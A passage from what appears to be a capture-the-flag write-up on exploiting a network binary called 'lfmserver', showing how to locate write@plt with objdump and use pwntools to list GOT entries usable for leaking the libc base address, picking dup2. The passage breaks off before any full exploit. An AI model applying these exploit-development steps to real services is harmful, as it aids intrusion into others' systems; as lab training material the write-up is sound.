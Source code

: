 #### Leaking libc-base
We can use write to leak any libc function and calculate the offset.
```bash
root@silence:~# objdump -D lfmserver -M intel | grep "write"
0000000000402420 <write@plt>:
  4025d7:       e8 44 fe ff ff          call   402420 <write@plt>
```
```c
root@silence:~# man 2 write
WRITE(2)                                     Linux Programmer's Manual                                     WRITE(2)

NAME
       write - write to a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t write(int fd, const void *buf, size_t count);
[...]
```
In order to leak any libc function, we have to define where to write to, what to write and how long the data will be. Our connection socket is not known, however we can guess it. The address is 8 bytes long.

Let us check which functions we can leak:
```python
root@silence:~# python3
Python 3.8.3rc1 (default, Apr 30 2020, 07:33:30)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> binary = ELF('./lfmserver',checksec=False)
>>> libc = ELF('./libc.so.6',checksec=False)
>>> for got in binary.got:
...     for lib in libc.symbols:
...             if got == lib:
...                     print(got)
...
_libc_start_main
stderr
stdout
dup2
pause
memset
snprintf
close
pthread_cond_signal
htons
openlog
exit
strcasecmp
read
strncmp
malloc
fopen
```
We have a lot of functions to choose from. Let us just use dup2, as it is the first function that is listed.
